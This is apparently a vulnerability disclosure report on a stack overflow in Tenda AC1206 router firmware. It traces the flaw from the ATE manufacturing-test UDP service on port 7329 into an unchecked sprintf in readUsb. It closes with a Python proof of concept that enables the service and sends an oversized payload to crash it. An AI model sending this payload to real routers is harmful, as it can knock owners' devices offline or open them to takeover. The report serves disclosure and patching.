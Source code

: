 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refers the CVE-2024-9793 (https://github.com/ixout/iotVuls/blob/main/Tenda/ate_command_injection/report.md) and I find another one

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket at most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `"check"` or `"check USB3.0"`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



In `readUsb` function,  the variale `mntFileName` size is ***512*** char, but the variale `fileName`'s size is ***0x1000*** at most (`fileName` come from `arg` mentioned above) , there use `sprintf` function to format the two variables (`mountpoint` and `fileName`) into `mntFileName`, there is no check , And will cause stack overflow. 

![](05.png)



![](06.png)

There is no protection mechanism, causing ***RCE*** is OK, furtherly

![](08.png)


Find that, the child thread `300` crash
![](07.png)


We can find that, in ate_Tenda_mfg_check_usb3 function, the argment `arg`'s value, whose length is out of 512 Byte
![](10.png)


poc:

```python
import socket
import time
import os

os.system('curl http://172.30.208.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.208.100', 7329)
command = b'ss'*999
message = b'Tenda_mfg check USB3.0 ;' + command
try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



